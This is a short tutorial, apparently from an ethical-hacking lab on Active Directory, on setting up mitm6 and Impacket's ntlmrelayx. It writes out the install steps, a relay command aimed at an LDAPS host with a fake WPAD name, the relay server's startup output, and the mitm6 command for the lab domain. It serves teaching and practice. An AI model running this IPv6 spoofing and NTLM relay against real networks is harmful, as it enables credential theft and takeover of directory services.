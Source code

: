 
First of all install [pimpmykali](https://github.com/Dewalt-arch/pimpmykali) cos' the tool `mitm6` doesn't come pre-installed with kali linux

![](https://i.imgur.com/SyvCBNl.png)

Change directory to `/opt/mitm6` and install the necessary requirements

```shell
sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd /opt/mitm6      

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ sudo pip2 install .

sec-fortress@Pwn-F0rk-3X3C:/opt/mitm6$ cd ~         

sec-fortress@Pwn-F0rk-3X3C:~$ 
```

![](https://i.imgur.com/jIbtM8b.jpg)

### Setting up ntlmrelayx and mitm6

On your terminal do :

```shell
sec-fortress@Pwn-F0rk-3X3C:~/PEH/AD$ ntlmrelayx.py -6 -t ldaps://192.168.0.110 -wh fakewpad.marvel.local -l bankai

Impacket v0.9.19 - Copyright 2019 SecureAuth Corporation

[*] Protocol Client SMB loaded..
[*] Protocol Client SMTP loaded..
/usr/share/offsec-awae-wheels/pyOpenSSL-19.1.0-py2.py3-none-any.whl/OpenSSL/crypto.py:12: CryptographyDeprecationWarning: Python 2 is no longer supported by the Python core team. Support for it is now deprecated in cryptography, and will be removed in the next release.
[*] Protocol Client MSSQL loaded..
[*] Protocol Client HTTPS loaded..
[*] Protocol Client HTTP loaded..
[*] Protocol Client IMAPS loaded..
[*] Protocol Client IMAP loaded..
[*] Protocol Client LDAP loaded..
[*] Protocol Client LDAPS loaded..
[*] Running in relay mode to single host
[*] Setting up SMB Server
[*] Setting up HTTP Server

[*] Servers started, waiting for connections
```

Note that `-6` represents IPv6 `-t` for targets `-wh` for fake web proxy auto-discovery `-l` will create a folder named **bankai**

Then start up the `mitm6` server with the following command :

```shell
sec-fortress@Pwn-F0rk-3X3C:~$ sudo mitm6 -d marvel.local
```

![](https://i.imgur.com/S8Go70A.png)

